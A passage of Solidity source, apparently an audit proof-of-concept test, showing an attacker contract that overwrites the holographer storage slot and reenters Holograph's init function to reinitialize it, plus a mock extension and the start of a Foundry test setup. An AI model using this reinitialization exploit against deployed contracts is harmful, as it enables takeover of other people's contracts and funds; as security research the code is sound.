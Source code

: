         constructor() {
             mc = new MockContract();
        }

        //function that reenters the holographer and sets this contract as the new holograph slot
        function init(bytes memory initPayload) external returns(bytes4) {
            assembly {
                sstore(holographer.slot, caller())
            }
            bytes memory initCode = abi.encode(abi.encode(uint32(1), address(this), bytes32("0xabc"), address(this)), bytes("0x0")); 
            holographer.call(abi.encodeWithSignature("init(bytes)", initCode));
            return InitializableInterface.init.selector;
        }

        function getRegistry() external view returns (address) {
            return address(this);
        }

        function getReservedContractTypeAddress(bytes32 contractType) external view returns (address) {
            return address(mc);
        }

        function isTheHolograph() external pure returns (bool) {
            return true;
        }

    }

    //simple extension contract to return easily during reinitialization
    contract MockContract {
        constructor() {}

        function init(bytes memory initPayload) external pure returns(bytes4) {
            return InitializableInterface.init.selector;
        }
    }

    contract HolographTest is Test {
        DeploymentConfig public config;
        Verification public verifiedSignature;
        HolographFactory public hf;
        HolographRegistry public hr;
        Holograph public h;
        HolographERC20 public he20;

        uint256 internal userPrivateKey;
        address internal hrAdmin;
        mapping(uint256 => bool) public _burnedTokens;
        address internal user;
        function setUp() public {
            //Creating all of the required objects
            hf = new HolographFactory();
            hr = new HolographRegistry();
            h = new Holograph();
            he20 = new HolographERC20();
